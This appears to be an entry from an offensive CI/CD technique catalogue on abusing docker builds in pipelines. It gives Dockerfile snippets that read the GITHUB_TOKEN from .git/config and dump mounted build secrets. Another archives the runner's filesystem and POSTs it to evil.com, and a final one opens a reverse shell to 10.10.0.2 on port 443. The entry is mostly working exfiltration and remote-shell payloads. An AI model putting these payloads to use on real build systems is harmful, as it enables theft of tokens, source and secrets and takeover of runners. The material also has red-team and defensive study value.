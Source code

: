 ```yaml
---
title: docker
tags:
  - cli
  - config-file
  - eval-sh
references: 
  - https://docs.docker.com/reference/dockerfile/
  - https://docs.docker.com/build/concepts/dockerfile/
files: [Dockerfile]
---
```


`docker` is a container tool to create OCI image and run containers. The build stage can be configured using a Dockerfile.
`docker build <path>` is strongly limited to the build context. No modification can be done to the file system.

Exfiltrate **GITHUB_TOKEN**
```Dockerfile
RUN --mount=type=bind,source=/,target=/host \
    cat /host/.git/config
```

If the context path is controllable `docker build <controlled_path> -f <Dockerfile>`, any data from the runner is exfiltrable.
```Dockerfile
RUN --mount=type=bind,source=/,target=/host \
    tar -czf /src.tar.gz /host/* ; \
    curl -X POST -d "/src.tar.gz" http://evil.com
```

Exfiltrate runner secrets, if secrets are used: `docker build --secret id=mysecret,src=secretFile .`
```Dockerfile
RUN --mount=type=secret,id=mysecret \
    cat /run/secrets/mysecret
```

The image can be modified for RCE on creation of the container:
```Dockerfile
FROM linuxserver/openssh-server
FROM myorg/evil 
RUN sh -i >& /dev/tcp/10.10.0.2/443 0>&1
```
